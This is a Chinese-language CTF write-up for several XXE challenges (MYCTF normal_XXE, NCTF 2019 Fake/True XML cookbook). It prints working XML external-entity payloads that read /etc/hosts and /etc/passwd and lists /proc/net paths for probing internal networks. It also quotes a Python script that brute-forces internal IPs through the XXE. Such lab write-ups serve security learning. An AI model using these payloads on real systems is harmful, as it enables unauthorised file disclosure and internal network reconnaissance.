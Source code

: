##### [MYCTF]normal_XXE

[题目链接](http://120.24.251.64:3355/)

- 通过测试发现回显部位为 \<username>\</username> 。

- payload：

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "file:///etc/hosts">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

  回显：

  ![](picture/1.png)

- 尝试访问 119.119.1.18，无回显。

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "http://119.119.1.18">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

- ip 爆破：

  ![](picture/2.png)

  ![](picture/3.png)

  ![](picture/4.png)

##### [NCTF 2019]Fake XML cookbook

[NSS](https://www.ctfer.vip/problem/1256)

- 通过测试发现回显部位为 \<username>\</username> 。

- payload：

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "file:///etc/hosts">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

##### [NCTF 2019]True XML cookbook

[NSS](https://www.ctfer.vip/problem/1257)

- 通过测试发现回显部位为 \<username>\</username> 。

- payload：

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "file:///etc/hosts">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

  回显：

  ![](picture/6.png)

- 尝试访问回显的两个 ip，无回显。

- ip 爆破：

  ![](picture/5.png)

##### [NCTF 2019]True XML cookbook

[BUU](https://buuoj.cn/challenges#[NCTF2019]True%20XML%20cookbook)

###### 前置知识

- XXE 内网探测：

  ```dtd
  file:///etc/hosts
  
  file:///proc/net/arp
  
  file:///proc/net/tcp
  
  file:///proc/net/udp
  
  file:///proc/net/dev
  
  file:///proc/net/fib_trie
  ```

- XXE 读取密码：

  ```dtd
  file:///etc/passwd
  ```

###### 题解

- 通过测试发现回显部位为 \<username>\</username> 。

- 读取 `/etc/hosts` ，回显无存活 ip 。

- 依次使用其他内网探测命令，仅以下两个回显有存活 ip：

  `file:///proc/net/arp`

  ![](picture/7.png)

  `file:///proc/net/fib_trie`

  ![](picture/8.png)

- 对以上回显 ip 进行访问，仅 10.244.80.36 访问成功，其余均长时间无 response。

- 针对 10.244.80.36 爆破，但是 burp 跑得太慢了。

- 可用脚本来跑，参考 HNUST 大佬 Article_kelp 的 exp：

  ```python
  import requests as res
  url="http://0c8016ed-ef08-4127-ad08-37c2bcce842e.node4.buuoj.cn:81/doLogin.php"
  rawPayload='<?xml version="1.0"?>'\
           '<!DOCTYPE user ['\
           '<!ENTITY payload1 SYSTEM "http://10.244.80.{}">'\
           ']>'\
           '<user>'\
           '<username>'\
           '&payload1;'\
           '</username>'\
           '<password>'\
           '23'\
           '</password>'\
           '</user>'
  for i in range(1,256):
      payload=rawPayload.format(i)
      #payload=rawPayload
      print(str("#{} =>").format(i),end='')
      try:
          resp=res.post(url,data=payload,timeout=0.3)
      except:
          continue
      else:
          print(resp.text,end='')
      finally:
          print('')
  
  ```

  

